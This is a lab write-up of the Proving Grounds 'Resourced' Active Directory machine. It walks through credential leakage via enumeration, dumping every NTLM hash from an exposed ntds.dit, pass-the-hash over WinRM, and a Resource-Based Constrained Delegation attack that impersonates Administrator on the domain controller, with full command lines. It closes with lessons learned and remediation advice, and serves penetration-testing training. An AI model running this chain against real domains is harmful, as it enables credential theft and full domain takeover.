



# Resourced — Proving Grounds

| | |
|---|---|
| **Platform** | Proving Grounds (Practice) |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Practice machine, no overlap with the OSCP exam pool |
| **Key techniques** | `enum4linux-ng` credential leak, SMB share with `ntds.dit`/`SYSTEM` hive, offline NTLM extraction, Resource-Based Constrained Delegation (RBCD) |

---

## TL;DR

Resourced leaks a working domain account through general SMB/AD enumeration,
which has access to a share literally named "Password Audit" — containing a
full NTDS database dump (`ntds.dit` + `SYSTEM` hive). Extracting every NTLM
hash from that dump and spraying them across the domain finds one that
authenticates over WinRM. That user holds **`GenericAll`** over the domain
controller's computer object, which is the textbook setup for a
**Resource-Based Constrained Delegation (RBCD)** attack: register a
machine account, delegate to it, and impersonate Administrator through
Kerberos to land on the DC directly.

---

## Recon & Enumeration

```bash
sudo nmap -sCV -p- <TARGET_IP>
```



Standard AD port set (LDAP, Kerberos, SMB). Broad enumeration with
`enum4linux-ng` recovered domain usernames and what looked like a valid
password alongside them.

---

## Foothold / Initial Access

Testing the recovered credential against SMB shares with `netexec`
confirmed it worked and listed the shares available to that account — one
of which was named **"Password Audit"**, an immediate red flag. Connecting
to it with `smbclient` and downloading its contents turned up `ntds.dit`,
`ntds.jfm`, and copies of the `SECURITY`/`SYSTEM` registry hives — a full
offline domain controller credential dump, apparently left over from a
legitimate password-audit exercise and never cleaned up.

```bash
smbclient "//<TARGET_IP>/Password Audit" -U '<DOMAIN>/<USER>%<PASSWORD>'
```



Running `impacket-secretsdump` against the `ntds.dit` + `SYSTEM` hive pair
extracted **every NTLM hash in the domain** offline:

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

Spraying the resulting hash list across WinRM with `netexec` found one
account that authenticated successfully (`Pwn3d!`), giving a shell via
`evil-winrm` using pass-the-hash. User flag retrieved.

---

## Privilege Escalation



Collecting AD data with SharpHound and loading it into BloodHound showed
the compromised user held **`GenericAll`** directly over the domain
controller's own computer object — full control over that object's
attributes, including the ones that govern delegation.

This is the standard setup for **Resource-Based Constrained Delegation**
abuse: register a new, attacker-controlled machine account, configure the
DC's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute (the "resource"
side of RBCD) to trust that new machine account for delegation, then request
a service ticket *impersonating Administrator* through that trust — Kerberos
S4U2Self/S4U2Proxy grants it without ever needing the Administrator's actual
credentials:

```bash
addcomputer.py -computer-name 'ATTACKER$' -computer-pass '<PASSWORD>' -dc-ip <DC_IP> '<DOMAIN>/<USER>:<PASS>'
rbcd.py -delegate-from 'ATTACKER$' -delegate-to 'TARGET$' -dc-ip <DC_IP> -action write '<DOMAIN>/<USER>:<PASS>'
getST.py -spn 'cifs/<TARGET_FQDN>' -impersonate Administrator -dc-ip <DC_IP> '<DOMAIN>/ATTACKER$:<PASSWORD>'
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass <TARGET_FQDN>
```

A SYSTEM shell on the domain controller followed. Root flag retrieved.

---

## Lessons Learned

- **A share literally hinting at its contents (`Password Audit`) is worth
  checking immediately** — the finding here wasn't subtle once general
  enumeration surfaced valid creds.
- **Leftover audit artifacts (`ntds.dit` dumps, credential exports) are a
  full domain compromise if left reachable** — this is a real-world
  incident category, not just a lab contrivance.
- **`GenericAll` over a computer object is an RBCD path**, not just a
  generic "full control" finding — write access to
  `msDS-AllowedToActOnBehalfOfOtherIdentity` lets an attacker delegate a
  machine account they control, then impersonate any user (including
  Administrator) against that computer via Kerberos.

---

## Remediation

- Never leave NTDS dumps or credential audit artifacts on any
  network share; treat them as tier-0 sensitive material with the same
  handling as the domain controller itself.
- Force a full domain password reset (including `krbtgt`, twice) after any
  suspected NTDS exposure.
- Restrict `GenericAll`/`GenericWrite` grants over computer objects,
  especially domain controllers, and monitor for RBCD attribute changes
  (`msDS-AllowedToActOnBehalfOfOtherIdentity`) as a high-signal detection.

---

**Machine:** [Proving Grounds — Resourced](https://portal.offsec.com/labs/play)
